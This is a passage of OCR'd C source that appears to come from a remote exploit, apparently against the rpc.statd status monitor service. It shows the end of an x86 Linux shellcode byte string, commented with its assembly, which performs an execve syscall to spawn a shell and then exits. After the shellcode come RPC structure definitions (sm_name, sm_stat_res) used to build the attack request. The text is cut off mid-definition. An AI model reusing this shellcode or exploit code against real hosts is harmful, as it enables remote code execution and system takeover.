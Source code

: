 "\x30\xc0"                              /* xorb   %al,%al               */

"\x88\x46\x07"                          /* movb   %al,0x7(%esi)         */

"\x89\x76\x0c"                          /* movl   %esi,0xc(%esi)        */

"\x8d\x56\x10"                          /* leal   0x10(%esi),%edx       */

"\x8d\x4e\x0c"                          /* leal   0xc(%esi),%ecx        */

"\x89\xf3"                              /* movl   %esi,%ebx             */

"\xb0\x0b"                              /* movb   $0xb,%al              */

"\xcd\x80"                              /* int    $0x80                 */

/* ------------------------------------ exit(blah); ------------------- */

"\xb0\x01"                              /* movb   $0x1,%al              */

"\xcd\x80"                              /* int    $0x80                 */

/* ricochet: call kungfu ---------------------------------------------- */

"\xe8\x7f\xff\xff\xff";                 /* call   -0x81                 */

 

enum res

{

    stat_succ,

    stat_fail

};

 

struct sm_name

{

    char *mon_name;

};

 

struct sm_stat_res

{

    enum res res_stat;

    int state;

};

 

struct type

{

    int type;
